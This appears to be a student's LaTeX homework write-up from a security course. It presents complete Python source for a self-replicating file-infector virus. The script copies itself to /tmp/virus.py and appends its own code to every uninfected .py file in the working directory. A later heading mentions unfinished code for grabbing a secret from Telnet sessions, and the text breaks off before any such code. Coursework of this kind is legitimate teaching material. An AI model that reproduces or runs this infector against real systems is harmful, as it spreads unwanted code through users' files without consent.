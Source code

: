 \documentclass{article}
\begin{document}
\subsubsection*{Part C}

This problem builds off of the previous two, with the script infecting all files in the directory like Part B, with a new payload that enables self-replication. The modified Part B script is found below:

\begin{verbatim}
import os
import sys

payload = """
## __virus
with open("Q1C.out", "a") as f:
    f.write(f"{' '.join(sys.argv)}\\n")
"""

if __name__ == '__main__':
    # check if virus source has been dropped yet
    # if not, drop it into /tmp/virus.py
    if not os.path.exists('/tmp/virus.py'):
        cwd = os.getcwd()
        script_name = os.path.basename(__file__)
        script_path = os.path.join(cwd, script_name)
        os.system(f'cp {script_path} /tmp/virus.py')
    
    # get the virus payload and try infecting
    # all files in the current directory with it
    with open('/tmp/virus.py', 'r') as f:
        virus = f.read()

        for file in os.listdir('.'):
            if not file.endswith(".py"):
                continue

            injected = False
            with open(file, "r") as f:
                for line in f:
                    if "## __virus" in line:
                        injected = True
                        break

            if not injected:
                with open(file, "a") as f:
                    f.write(virus)
\end{verbatim}

\newpage
\subsection*{Question 2}

This problem was not completely finished, and is missing the final functionality of grabbing the Q2secret from the Telnet session(s) established, below is the code:
\end{document}

